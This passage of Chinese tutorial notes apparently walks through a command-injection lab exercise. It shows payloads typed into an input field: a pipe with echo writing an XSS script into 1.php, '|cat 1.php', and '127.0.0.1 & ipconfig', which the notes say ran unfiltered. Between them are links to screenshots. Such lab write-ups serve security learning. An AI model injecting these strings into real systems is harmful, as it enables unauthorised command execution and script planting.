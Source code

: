 - 比如这样
  |echo "(script)alert('xss')(/script)">1.php 圆括号换成尖括号

<img src="img\添加符号3.jpg" alt="添加符号3" style="zoom:80%;" />

<img src="img\添加符号4.jpg" alt="添加符号4" style="zoom:80%;" />

- |cat 1.php

<img src="img\成功.jpg" alt="成功" style="zoom:80%;" />

- 直接输入127.0.0.1 & ipconfig,没有任何过滤，执行成功

<img src="img\直接输入ip.jpg" alt="直接输入ip" style="zoom:80%;" />